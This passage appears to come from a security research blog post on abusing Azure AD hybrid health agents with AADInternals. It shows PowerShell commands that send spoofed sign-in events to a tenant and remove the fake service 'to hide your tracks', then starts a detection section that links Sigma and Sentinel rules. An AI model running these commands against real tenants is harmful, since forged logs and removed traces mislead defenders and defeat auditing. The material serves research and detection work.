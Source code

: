 Clicking anywhere in the Overview box will show the list of all registered agents:
![New service - status healthy](/images/posts/hhealth_14.png)

Multiple servers and proxies can be registered with the same process.

## Creating fake events

Now we can create fake events same way we did <a href="#spoofing-sign-ins-log-with-aadinternals">above</a>:

Now we can load the agent information to a variable and create fake events as <a href="#spoofing-sign-in-log-with-aadinternals">above</a>:

{{< highlight powershell >}}
# Load the agent information and save to a variable
$agentInfo = Get-Content "AdFederationService-sts.company.com_c5ff949d-2696-4b68-9e13-055f19ed2d51_224a18a0-b450-477c-a437-07916855e570_ADFS01.json" | ConvertFrom-Json

# Send the events
Send-AADIntHybridHealthServiceEvents -AgentInfo $agentInfo -Events $events -Verbose
{{< /highlight>}}

## Removing fake services and agents

Finally, to hide your tracks, you can remove the service and agents:
{{< highlight powershell>}}
# Remove the service and agents
Remove-AADIntHybridHealthService -ServiceName "AdFederationService-sts.company.com"
{{< /highlight>}}

**Note:** I was able to create AD FS service and register agents also to the tenant without Azure Premium P1 or P2 subscription. However, the events won't appear in the Azure AD sign-ins log and service 
can't be viewed from the Azure Portal.


# How to detect

## Exporting agent secrets
After original publication of this blog, <a href="https://twitter.com/Cyb3rWard0g" target="_blank">@Cyb3rWard0g</a> created <a href="https://github.com/SigmaHQ/sigma/pull/1934" target="_blank">Sigma</a>
and <a href="https://github.com/search?q=repo%3AAzure%2FAzure-Sentinel+extension%3Ayaml+filename%3AAADHybridHealthADFSNewServer.yaml+filename%3AAADHybridHealthADFSServiceDelete.yaml+filename%3AAADHybridHealthADFSSuspApp.yaml+filename%3AAADHealthMonAgentRegKeyAccess.yaml+filename%3AAADHealthSvcAgentRegKeyAccess.yaml&type=Code&ref=advsearch&l=&l=" target="_blank">Azure Sentinel</a> rules for detecting access to agent key.

